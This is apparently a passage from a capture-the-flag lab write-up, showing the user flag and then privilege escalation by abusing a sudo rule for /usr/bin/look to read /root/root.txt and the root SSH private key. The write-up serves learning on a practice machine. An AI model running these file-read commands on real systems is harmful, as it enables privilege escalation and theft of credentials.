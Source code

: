 ```
think@ip-10-10-116-56:~$ ls
user.txt
think@ip-10-10-116-56:~$ cat user.txt 
38375fb4dd8baa2b2039ac03d92b820e
```
# Privilege Escalation

We start [[Privilege Escalation]] to root with sudo -l :

```
think@ip-10-10-116-56:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on ip-10-10-116-56:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on ip-10-10-116-56:
    (ALL) /usr/bin/look

```

## GTFObins

We can check [[GTFObins]] to see if we can exploit this somehow :

![[Pasted image 20250719175202.png]] 

Let's try it to see the root flag :
```
think@ip-10-10-116-56:/$ sudo usr/bin/look '' "/root/root.txt"
5a285a9f257e45c68bb6c9f9f57d18e8
```

We can also copy root ssh key to our Kali machine and use it to root ssh :

```
think@ip-10-10-116-56:/$ sudo usr/bin/look '' "/root/.ssh/id_rsa"
```

Remember to make it readable with chmod 600 .